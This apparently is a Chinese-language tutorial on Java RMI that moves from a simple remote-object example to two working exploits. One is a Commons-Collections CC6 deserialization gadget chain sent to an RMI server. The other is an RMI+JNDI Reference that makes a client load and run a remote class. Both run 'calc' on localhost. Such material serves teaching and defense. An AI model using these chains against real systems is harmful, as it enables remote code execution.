




RMI
RMI（Remote Method Invocation）是Java中用于实现远程方法调用的机制,它允许在不同的JVM之间传递和执行Java对象的方法调用。
下面是一个简单的RMI示例代码：
Server端代码：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
| public interface NeedOb extends Remote {
public String sayhello () throws RemoteException;
}
public class NeedObject extends UnicastRemoteObject implements NeedOb{
public NeedObject() throws RemoteException{};
@Override
public String sayhello() throws RemoteException {
return "hello";
}
}
public class RMIServer {
public static void main(String[] args) throws RemoteException, AlreadyBoundException {
NeedObject needObject = new NeedObject();
Registry registry = LocateRegistry.createRegistry(1099);
registry.bind("needObject",needObject);
}
}
|
Client端代码：
1
2
3
4
5
6
7
| public class RMIClient {
public static void main(String[] args) throws RemoteException, NotBoundException {
Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
NeedOb needObject2 = (NeedOb) registry.lookup("needObject");
System.out.println(needObject2.sayhello());
}
}
|
结果输出：

通讯过程：
- 客户端通过lookup()方法查找远程对象的引用。这个过程需要指定要查找的远程对象的URL地址（包括主机名、注册表名称和对象名称）。
- 客户端调用远程对象的方法。这个过程和调用本地对象的方法类似,客户端并不知道这个对象在运行时是否在本地,也不知道对象实现的细节。
- 客户端请求经过网络传输到服务端。这个过程涉及到数据的编码和解码,通过
Java序列化机制将对象转换成字节数组进行传输。
- 服务端收到请求,根据请求参数调用相应的方法,并将结果返回给客户端。这个过程同样需要涉及数据的编码和解码。
- 服务端的响应经过网络传输到客户端,客户端接收响应并将返回值转换成本地对象。
序列化利用
仅通过上述代码是很难进行利用的,但我们从传输的过程可以发现客户端在调用远程对象方法的时候,传输的参数有一个先在客户端序列化,然后在服务端反序列化的过程,所以我们就可以利用这个过程实现反序列化的利用,这里以CC6为例。
条件：远程调用方法允许传入Object对象&服务端有commons-collections的依赖
我们首先把sayhello方法修改成可传入Object对象
1
2
3
4
5
6
7
| public class NeedObject extends UnicastRemoteObject implements NeedOb{
public NeedObject() throws RemoteException{};
@Override
public String sayhello(Object object) throws RemoteException {
return "hello";
}
}
|
在服务端添加commons-collections依赖
1
2
3
4
5
| <dependency>
<groupId>commons-collections</groupId>
<artifactId>commons-collections</artifactId>
<version>3.2.1</version>
</dependency>
|
客户端修改poc：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
| Transformer[] Transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);
HashMap<Object,Object> map = new HashMap<Object,Object>();
Map lazymap = LazyMap.decorate(map, chainedTransformer);
TiedMapEntry tiedMapEntry = new TiedMapEntry(map,"13");
HashMap<Object,Object> hashMap=new HashMap<>();
hashMap.put(tiedMapEntry,"123");
hashMap.remove("13");
Class clazz = tiedMapEntry.getClass();
Field mapfield = clazz.getDeclaredField("map");
mapfield.setAccessible(true);
mapfield.set(tiedMapEntry,lazymap);
Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
NeedOb needObject = (NeedOb) registry.lookup("needObject");
needObject.sayhello(hashMap);
|
命令执行成功！！！

RMI+JNDI
JNDI（Java 命名和目录接口）是 Java 平台提供的一组 API,用于查找和访问命名和目录服务。它可以让 Java 应用程序在运行时动态地查找和使用各种资源,如数据库连接、邮件服务器、JMS 消息队列等。通过 JNDI,Java 应用程序可以在不同的环境中进行配置和部署,而无需修改代码。

JNDI支持很多协议,其中就包括RMI协议
以下是一段利用jndi调用远程对象的客户端实例代码：
1
2
3
4
| InitialContext context = new InitialContext();
NeedOb needObject = (NeedOb) context.lookup("rmi://localhost:1099/needObject");
context.lookup("rmi://localhost:1099/needObject");
System.out.println(needObject.sayhello("111"));
|
运行后将会直接调用远程对象的sayhello方法
之前我们是利用客户端去攻击服务端,而RMI+JNDI可以利用服务端去攻击客户端,当客户端lookup里的参数可控时,我们构造以下服务端代码来执行任意命令：
1
2
3
4
5
6
7
8
| public class RMIServer {
public static void main(String[] args) throws Exception {
Reference reference = new Reference("Test","Test","http://127.0.0.1:7777/");
Registry registry = LocateRegistry.createRegistry(1099);
ReferenceWrapper wrapper = new ReferenceWrapper(reference);
registry.bind("needObject",wrapper);
}
}
|
对应的Test类：
1
2
3
4
5
| public class Test {
public Test() throws Exception{
Runtime.getRuntime().exec("calc");
}
}
|
先启动服务程序,然后在Test.class文件位置用python -m http.server 7777在本地7777端口开一个http服务
启动客户端发现命令被执行

这段代码的重点在于Reference reference = new Reference(“Test”,“Test”,“http://127.0.0.1:7777/”);
在Java的JNDI（Java命名和目录接口）中,Reference类用于表示对远程或本地资源的引用,例如Web服务、JDBC数据源等。Reference对象通常包含了一些元数据信息,如引用类型、名称、位置、认证信息等。
Reference(String className, String factoryClassName, String location)是Reference类的一个构造方法,传入的三个参数分别为类名、工厂类名、URL地址
因为Reference没有实现Remote接口也没有继承UnicastRemoteObject类,故不能作为远程对象bind到注册中心,所以需要使用ReferenceWrapper对Reference的实例进行一个封装。
当客户端运行代码的时候会去http://127.0.0.1:7777寻找Test类同时调用其构造方法,于是就触发了构造方法中的命令